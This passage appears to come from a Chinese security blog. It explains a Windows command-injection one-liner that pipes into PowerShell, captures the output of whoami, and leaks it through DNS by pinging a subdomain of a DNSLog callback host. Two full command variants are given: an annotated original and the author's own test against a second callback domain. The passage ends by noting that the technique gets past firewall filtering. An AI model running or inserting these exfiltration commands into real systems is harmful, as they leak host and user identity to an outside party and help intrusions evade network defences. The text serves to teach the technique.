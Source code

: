 ```cmd
ping 127.0.0.1 | powershell $x=whoami;$x=$x.Replace('\','xxx');$y='.f4an93.dnslog.cn';$z=$x+$y;ping $z
```

这行命令由两部分通过管道 `|`连接而成，在PowerShell部分：

```bash
$x=whoami;          // 执行whoami命令，将结果赋值给变量$x。例如，结果可能是"domain\user"或"computer\user"。
$x=$x.Replace('\','xxx');      // 将$x中的反斜杠'\'替换为'xxx'。这是因为域名中不允许有反斜杠，所以需要替换掉。例如，"domain\user"变成"domainxxxuser"。
$y='.f4an93.dnslog.cn';      // 定义一个字符串，是攻击者控制的DNSLog域名。
$z=$x+$y;                          // 将处理后的用户名和DNSLog域名拼接起来，形成一个新的域名。例如，"domainxxxuser.f4an93.dnslog.cn"。
ping $z     // 对拼接后的域名执行ping命令。ping命令会尝试解析这个域名，从而向DNS服务器发起查询。攻击者可以在DNSLog平台上看到这个查询记录，从而得知whoami的结果
```

所以，整个命令的目的是：获取当前用户名，并将用户名通过DNS查询外带出来。

为什么要这样写

- cmd无法执行whoami
- 用到powershell+变量赋值，把whoami执行结果给变量
- 结果中带有“\” 会导致ping无法执行

笔者自行使用Windows主机测试如下

```cmd
ping 127.0.0.1 | powershell $x=whoami;$x=$x.Replace('\','xxx');$y='.5d8f10b7b9.ddns.bypass.eu.org.';$z=$x+$y;ping $z
```

可见带出了whoami执行结果

![image-20250920180136113](https://img.yatjay.top/md/20250920180136160.png)

实际上，ping命令外带可以绕过防火墙限制，一般地，防火墙在TCP/UDP即传输层进行过滤，ping命令的ICMP不受限制，而DNS解析作为必要，防火墙一般会放开DNS协议

 



